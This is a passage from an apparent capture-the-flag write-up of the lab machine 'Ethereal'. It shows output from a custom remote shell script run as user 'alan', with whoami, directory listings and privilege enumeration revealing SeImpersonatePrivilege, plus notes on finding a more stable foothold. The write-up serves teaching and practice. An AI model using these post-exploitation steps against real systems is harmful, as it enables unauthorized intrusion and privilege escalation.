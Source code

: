     
    root@kali# ./ethereal_shell.py
    [*] Starting DNS Sniffer on tun0 for target 10.10.10.106.
    [*] Logging in and fetching state information.
    [+] State information received.
    ethereal> whoami
    etherealalan
    
    ethereal> dir \
    Volume in drive C has no label.
    Volume Serial Number is FAD9-1FD5
    Directory of c:
    07/07/2018 09:57 PM <DIR> Audit
    06/30/2018 10:10 PM <DIR> inetpub
    06/26/2018 05:51 AM <DIR> Program Files
    07/16/2018 08:55 PM <DIR> Program Files (x86)
    07/05/2018 09:38 AM <DIR> Users
    07/01/2018 09:57 PM <DIR> Windows
    0 File(s) 0 bytes
    6 Dir(s) 15,409,475,584 bytes free
    
    ethereal> whoami /priv
    PRIVILEGES INFORMATION
    ----------------------
    Privilege Name Description State
    ============================= ========================================= ========
    SeChangeNotifyPrivilege Bypass traverse checking Enabled
    SeImpersonatePrivilege Impersonate a client after authentication Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
    

## Better Shell as Alan

### Enumeration - Programs

Using this shell to look around, there are some interesting files. No
user.txt, but there is a note-draft.txt on the user’s desktop. But the
priority right now is to develop a more stable access. I still can’t get
PowerShell to do anything interesting. So I decided to check out Program
Files:

    
    
    ethereal> dir /x \progra~2
    Volume in drive C has no label.
    Volume Serial Number is FAD9-1FD5
    Directory of c:progra~2
    07/16/2018 08:55 PM <DIR> .
    06/30/2018 09:02 PM <DIR> COMMON~1 Common Files
    06/26/2018 01:10 AM <DIR> INTERN~1 Internet Explorer
    06/30/2018 09:02 PM <DIR> MICROS~1 Microsoft SDKs
    06/30/2018 09:04 PM <DIR> MICROS~2 Microsoft Visual Studio
    07/16/2016 01:23 PM <DIR> MICROS~1.NET Microsoft.NET
    06/30/2018 09:06 PM <DIR> MSBuild
    06/26/2018 09:55 PM <DIR> OPENSS~1.0 OpenSSL-v1.1.0
    06/26/2018 05:51 AM <DIR> REFERE~1 Reference Assemblies
    06/26/2018 10:13 PM <DIR> WINDOW~1 Windows Defender
    06/26/2018 10:13 PM <DIR> WINDOW~2 Windows Mail
    06/26/2018 10:13 PM <DIR> WINDOW~3 Windows Media Player
    07/16/2016 01:23 PM <DIR> WINDOW~4 Windows Multimedia Platform
    07/16/2016 01:23 PM <DIR> WI67CB~1 Windows NT
    06/26/2018 10:13 PM <DIR> WI8A19~1 Windows Photo Viewer
    07/16/2016 01:23 PM <DIR> WIBFE5~1 Windows Portable Devices
    07/16/2016 01:23 PM <DIR> WID5B1~1 WindowsPowerShell
    0 File(s) 0 bytes
    18 Dir(s) 15,460,114,432 bytes free